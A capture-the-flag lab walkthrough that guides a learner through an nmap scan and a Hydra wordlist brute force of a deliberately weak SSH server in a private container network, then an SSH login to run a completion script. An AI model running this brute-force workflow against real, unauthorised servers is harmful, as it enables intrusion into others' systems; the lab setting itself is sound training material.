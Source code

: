## Machines on network:

172\.28.1.4 **SSH Server**

172\.28.1.5 - **Kali Linux container**

## Overview of Challenge:
This challenge takes the user through using a password and username list to bruteforce an SSH server with weak credentials. 

**SSH** or secure shell is a tool and protocol for connecting securely between two hosts. In this challenge, our end goal will be to use the weak credentials found by bruteforcing the SSH server to run a completion script on our target machine. 

**Hydra** is the tool we will be using to run the brute force attack on the server. Hydra can be used for bruteforce attacks on many protocols, but in this challenge we will be using it for bruteforcing SSH.

**nmap** is a port scanning tool, we can use this tool to determine what is running and accessible on a target IP or network.

**Wordlists** are lists of common usernames, passwords, web endpoints, etc... that we can use to try and guess credentials, website addresses, and more.

Walkthrough:

## 1) Scanning the target

Our first objective will be to run a nmap port scan on our target machine. We can start the scan with the following command:

```nmap -sV 172.28.1.4```

The -sV specifies nmap to run a service scan on the target machine, whose IP is 172\.28.1.4 

This command will output the following:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-09 03:55 UTC
Nmap scan report for challengecomposefiles-bruteforce-ssh-1.webnet (172.28.1.4)
Host is up (0.000014s latency).
Not shown: 999 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 9.6 (protocol 2.0)
MAC Address: 02:42:AC:1C:01:04 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds

```
As we can see, nmap detects a OpenSSH server running on port 2222

## 2) Attacking the target
Now that we have found an open port to exploit, we can start our attack. For this attack we will use the "top-usernames-shortlist.txt" as our username wordlist, and the "2020-200_most_used_passwords.txt" as our password wordlist. We can use the following Hydra command to start the attack

```hydra -s 2222 -L top-usernames-shortlist.txt -P 2020-200_most_used_passwords.txt 172.28.1.4 ssh```

**"-s 2222"** specifies the port, by default Hydra will attack port 22 for SSH, as that is the default port for SSH, but our target is configured to listen on port 2222.

**"-L top-usernames-shortlist.txt"** specifies our username wordlist

**"-P 2020-200_most_used_passwords.txt"** specifies our password wordlist

**"172.28.1.4 ssh"** specifies our target IP, and tells Hydra to attack over SSH

This command will output:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-09 04:13:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 3349 login tries (l:17/p:197), ~210 tries per task
[DATA] attacking ssh://172.28.1.4:2222/
[STATUS] 156.00 tries/min, 156 tries in 00:01h, 3195 to do in 00:21h, 14 active
[2222][ssh] host: 172.28.1.4   login: <redacted>   password: <redacted> 
```
As shown in the output, we found a pair of working credentials! Now let's use them to gain access to the machine!

## 2) Accessing the target
Now that we have a set of credentials, lets login! 

We can login to the target over SSH with the following command (Just replace \<redacted> with the username Hydra found)

```ssh <redacted>@172.28.1.4 -p 2222```

You will be prompted for the password you just found, and then you will have a shell!

If we run ```ls -la``` in our new shell, we will get the following output:

``` 526645b89d41:~$ ls -la
total 28
drwxr-xr-x 5 admin users 4096 May  9 04:13 .
drwxr-xr-x 1 root  root  4096 May  9 04:13 ..
drwx------ 2 admin users 4096 May  9 03:54 .ssh
-rwxr-xr-x 1 admin users   74 May  9 00:46 complete.sh
drwxr-xr-x 3 admin users 4096 May  9 03:54 logs
drwxr-xr-x 2 admin users 4096 May  9 04:13 ssh_host_keys
-rw-r--r-- 1 admin users    4 May  9 04:13 sshd.pid
526645b89d41:~$ 
```

As you can see, there appears to be a script called "complete.sh" that we can run. We can run it using the following command

```./complete.sh```

After running the script, we can check the challenge tracking page at http://172.28.1.2 and the challenge should be marked as complete!